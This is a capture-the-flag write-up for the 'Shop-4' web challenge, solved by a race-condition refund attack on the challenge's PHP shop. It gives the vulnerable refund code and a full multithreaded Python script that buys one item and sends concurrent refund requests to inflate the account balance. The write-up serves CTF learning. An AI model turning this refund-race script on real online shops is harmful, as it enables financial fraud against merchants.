

# Shop-4 CTF Challenge Writeup
----
**Solved by**: 4LT3R_3GO / Blodbamsen 

----

## Description
<i>We always aim to make things bigger and better! Our shop now boasts more items than ever before and has scaled up to support way more users than previous years with a blazingly fast frontend!

If you should manage, somehow to buy the new exclusive EPT fan merchandise, you can claim 5 physical instances at the admin booth after you have bought the fan in the shop and submitted the flag on the platform!</i>

## Walkthrough  
The container loads a web page, and we are presented with a simple login panel and a link to register a user.
It is possible to register a user, and each user is given a balance of 100 EPT dollars.
There is only one thing we can afford at this moment, which is a **Race Car** for $99.99.

After testing to buy products for negative values, selling products we don't have, and tampering with other values by intercepting the traffic, we resolved to read the provided files. 

Then, after inspecting the source files, we see that the flag is embedded into the product "EPT Fan" when the database is created(db/populate.sql) and will be shown under orders after the purchase has been completed. 


```sql
INSERT IGNORE INTO items (name, description, price, note, image, rating, in_stock) VALUES
 ('Race Car', 'A blazingly fast toy race car!', 99.99, 'An imaginary toy race car almost as fast as our frontend!', '/images/race-car.png', 4.8, 1),
 ('EPT Fan', 'This fan will blow you away!', 2499.99, 'Come over to the admin booth and claim your very own EPT Fan for you and your team! __FLAG__', '/images/fan.png', 5.0, 1),
```
<i>('EPT Fan', 'This fan will blow you away!', 2499.99, 'Come over to the admin booth and claim your very own EPT Fan for you and your team! **__FLAG__**', '/images/fan.png', 5.0, 1),</i>


Looking into index.php, we can understand the server's behavior when making a request. For instance, when we ask for a refund, the server checks if the user owns the item and then updates the user's balance before removing the item from our inventory. 
There is a lack of concurrency control, meaning there is no atomicity, which means we can implement the race condition vulnerability. 

```php
if ($action === 'refund') {
    if (isset($user_items[$item_id]) && $user_items[$item_id] > 0) {
        if (updateUserbalance($user['id'], $item['price'])) {
            if (removeUserItem($user['id'], $item_id)) {
                $messages[] = [
                    "category" => "success",
                    "message" => "Item refunded successfully!"
 ];
```

So, let's buy an item and sell it multiple times until we get enough EPT dollars to buy the legendary fan.

First, we import the libraries we'll need for this.
```py
import requests
from concurrent.futures import ThreadPoolExecutor
```

Secondly, we craft the request headers based on the information we saw in the intercepted request earlier.

```py
# Set the target URL and session token
url = "https://blodbamsen-eaf2-shop-4.ept.gg/"
session_token = "d8661bef6b1f088b1e244116fb12fbfc170035e37007dafc73e6ece8904b5352"
item_id = 1 # the item we want
num_refund_requests = 10 #number of times we sell per buy
num_cycles = 10 #number of total items

# Headers for the POST request
headers = {
    "Cookie": f"session_token={session_token}",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "https://blodbamsen-df8c-shop-4.ept.gg",
    "Referer": "https://blodbamsen-df8c-shop-4.ept.gg/",
}
```
After that, we'll implement the logic that buys and refunds our orders and wrap it in a loop.

```py
#Paylods for the shop transactions
buy_data = {
    "item_id": item_id,
    "action": "buy",
}

refund_data = {
    "item_id": item_id,
    "action": "refund",
}

# Function to send a single refund request
def send_refund_request():
    try:
 response = requests.post(url, headers=headers, data=refund_data)
        if response.status_code == 200:
            print("[*] Refund request successful")
        else:
            print(f"Refund request failed with status code: {response.status_code}")
    except requests.exceptions.RequestException as e:
        print(f"[-] Error sending refund request: {e}")

# Function to buy the item
def buy_item():
    try:
 response = requests.post(url, headers=headers, data=buy_data)
        if response.status_code == 200:
            print("[*] Item purchased successfully")
        else:
            print(f"Purchase failed with status code: {response.status_code}")
    except requests.exceptions.RequestException as e:
        print(f"[-] Error during purchase: {e}")

# Main loop to buy and sell 
for cycle in range(num_cycles):
    print(f"\n--- Starting Cycle {cycle + 1} ---")
 buy_item()

    print("--- Starting refund requests... ---")
    with ThreadPoolExecutor(max_workers=10) as executor:
 futures = [executor.submit(send_refund_request) for _ in range(num_refund_requests)]
        for future in futures:
 future.result()

print("\n[*] Complete")
```

Start to run this, and wait... 
After a couple of seconds, refresh the web page and blam.

<i>Ding ding ding - we can now buy the EPT Fan<i>


----



----


### FLAG
**EPT{th0s3_f4ns_g0_brrrr}** 

╰(*°▽°*)╯